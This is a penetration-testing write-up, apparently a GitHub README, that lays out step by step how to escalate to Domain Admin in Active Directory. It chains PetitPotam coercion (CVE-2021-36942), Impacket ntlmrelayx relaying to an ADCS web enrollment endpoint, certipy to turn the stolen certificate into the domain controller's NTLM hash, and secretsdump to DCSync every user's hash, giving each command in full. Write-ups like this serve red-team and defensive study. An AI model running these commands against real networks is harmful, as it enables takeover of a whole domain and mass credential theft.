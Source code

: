 # Active Directory Certificate Services (ADCS) Petitpotam and ntlmrelayx to Domain Admin

# Background

I was on a recent engagement in a large AD environment of a large corporate business. There was a number of domain controllers, along with seperate ADCS servers used for signing and assigning certificates within the domain. This attack path used petitpotam (CVE-2021-36942) to coerce a domain controller within the active directory environment into authenticating with it's machine account - E.G DC1$ - to an attacker-controlled Kali Linux instance. Ntlmrelayx was then used to relay the machine account authentication to the ADCS server within the environment, in order to obtain a certificte for the domain controller machine account. This could then be used to either generate a kerberos ticket or to extract the machine account NTLM hash to dcsync a domain controller within the environment.

# Steps to replicate

## Find ADCS server

The first step is to find the ADCS server(s) within the domain, this may reside on a domain controller, or on a seperate server instance. Certipy "https://github.com/ly4k/Certipy" can be used to find ADCS server details with the following command:

```shell
certipy.py find 'domain.local/<username>:<password>@<adcs-server.domain.local>'

```
The command takes an active directory username/password to identify any ADCS servers and displays associated details, such as CA name and any templates that are available. Furthermore, if you have access to a Windows host, you would only need to run `certutil.exe` to gather the same information.

If you do not have credentials, running an nmap scan against hosts within the domain may reveal servers that have hostnames with "CA" or "cert" in the title. Moreover, the service may be running on a domain controller, so it would be wise to try against the DC in that scenario.

## Start impacket's ntlmrelayx

On Kali Linux (or any similar distribution), run Impacket's ntlmrelayx with the following command in a terminal window:

```shell
ntlmrelayx.py --target http://<adcs-server.domain.local/certsrv/certfnsh.asp -smb2support --adcs --template DomainController 
```
This will start ntlmrelayx listening for authentication requests on the attacker-controlled machine.

## Petitpotam - coerce domain controller

Next, use petitpotam.py "https://github.com/topotam/PetitPotam" to coerce the domain controller into authenticating to the attacker-controlled machine running ntlmrelayx:

```shell
python3 petitpotam.py <attacker-controlled-IP Address> <domain-controller-IP Address>
```

You may need to attempt this a couple of times for petitpotam.py to work, however once it has been run, ntlmrelayx will relay the authentication data to the ADCS server within the domain environment. If successful, the terminal output of ntlmrelayx should show a base64 encoded certificate of the domain controllers machine account.

It is best at this point to save the base64 representation of the machine account certificate to a file `DC1-machine-account.pfx.b64` then decode the data, to leave the raw pfx certificate:

```shell
cat DC1-machine-account.pfx.b64 | base64 -d > DC1-machine-account.pfx
```

## Extracting the domain controller machine account NTLM hash

From here, certipy can be used to extract the machine account from the pfx file generated above `DC1-machine-account.pfx`:

```shell
certipy auth -pfx DC1-machine-account.pfx -user '<machine account username>' -dc-ip <domain-controller-IP-address> -domain <domain name>
```

Noting that the "user" needs to be supplied with the machine account username, for example if the domain controller was named "DC1", the machine account would be "DC1$".

The command will output the NTLM hash for the domin contoller machine account, which can then be used with impackets secretsdump.py to dcsync the domain, in order to retrieve all user hashes:

```shell
secretsdump.py -hashes :<NTLM-HASH> -just-dc <domain name>/DC01\$@<domain-controller-IP-address>
```
Again noting the machine account must be supplied within the command as the user WITHOUT a password.


